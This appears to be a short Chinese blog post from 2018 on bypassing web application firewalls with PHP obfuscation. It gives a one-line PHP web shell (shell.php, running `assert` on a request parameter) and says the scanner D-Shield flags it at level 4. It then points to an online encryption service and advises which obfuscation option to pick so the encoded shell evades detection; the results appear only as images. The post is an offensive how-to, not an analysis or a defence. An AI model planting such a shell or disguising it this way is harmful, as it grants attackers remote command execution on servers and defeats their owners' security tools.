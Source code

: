 ```yaml
---
title: "PHP 加密 Bypass WAF"
date: 2018-03-19T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



利用国内的 php 混淆加密绕过 waf

<!--more-->

原始代码

```
<?php
// shell.php
assert($_REQUEST['cmd']);
?>
```

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459418.jpg)

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459420.jpg)

D盾 4级

enphp.djunny.com

在线加密

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459422.jpg)

注意混淆选择字母 php 版本自行修改

加密后代码

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459424.jpg)

shell_encode.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459426.jpg)